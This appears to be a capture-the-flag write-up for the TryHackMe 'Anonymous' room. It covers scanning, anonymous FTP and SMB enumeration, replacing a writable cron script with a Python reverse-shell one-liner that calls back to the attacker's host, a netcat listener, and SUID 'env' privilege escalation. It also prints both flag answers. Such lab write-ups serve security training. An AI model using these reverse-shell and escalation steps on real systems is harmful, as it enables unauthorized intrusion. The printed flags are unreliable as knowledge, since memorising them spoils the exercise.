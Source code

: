 # [Anonymous](https://tryhackme.com/room/anonymous)

> Not the hacking group

## Scanning

scan carefully the target

```
nmap -sS -sV -sC -Pn 10.10.185.190
```

![image](https://user-images.githubusercontent.com/90561566/230727292-78b11923-d62d-423a-8617-5484fa039deb.png)

interesting, a huge information here

+ we have a ftp server allowed anonymous login, even writable permission
+ a samba server on windows 6.1 with empty password

## Enumeration

view remote share on smbclient with empty password

![image](https://user-images.githubusercontent.com/90561566/230729451-7bf785e1-2bd7-460a-951f-00b4cb6fa7ff.png)

there is a `pics` shared folder here

connect to ftp server

```
ftp 10.10.185.190
anonymous
anonymous
```

![image](https://user-images.githubusercontent.com/90561566/230727476-131f2d57-23a8-4d7e-b2aa-314d448f29a2.png)

```
ls
cd scripts
ls
```

![image](https://user-images.githubusercontent.com/90561566/230727533-2d61c444-42c3-44e7-9323-35ff936a4522.png)

get all file to local machine for further research

```
mget *
```

![image](https://user-images.githubusercontent.com/90561566/230727694-34a3d34a-d9c2-4147-ae36-d7983bd5df95.png)

![image](https://user-images.githubusercontent.com/90561566/230727729-360bc42a-8925-4fe3-b0b9-e64fabfdf286.png)

![image](https://user-images.githubusercontent.com/90561566/230727742-bd6d4246-5503-42a4-9ba2-f97141b32f73.png)

## Exploitation

it seem a cron jobs for auto cleanup scripts and all of it will be save to a log file

because we have wrirable permission, so i can change to my command

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.43.204",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
put clean.sh
```

and on our machine, open a netcat listener

```
nc -vlnp 1234
```

update terminal

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/90561566/230728856-ce90219f-84b8-4a8d-bb95-5ec080f7a73e.png)

```
cat user.txt
```

![image](https://user-images.githubusercontent.com/90561566/230728970-a995a475-612f-4eef-9cf3-8ddbbc980bd3.png)

| Flag | user.txt |
| --- | --- |
| Answer | 90d6f992585815ff991e68748c414740 |

## Privilege Escalation

find files with SUID bit

```
find / -type f -perm -04000 -ls 2>/dev/null
```

i found `env` seem good, at GTFOBins i see the exploitation

```
env /bin/sh -p
cat /root/root.txt
```

![image](https://user-images.githubusercontent.com/90561566/230729263-623d8d49-0395-489d-a2b4-797e51ce026a.png)

| Flag | root.txt |
| --- | --- |
| Answer | 4d930091c31a622a7ed10f27999af363 |
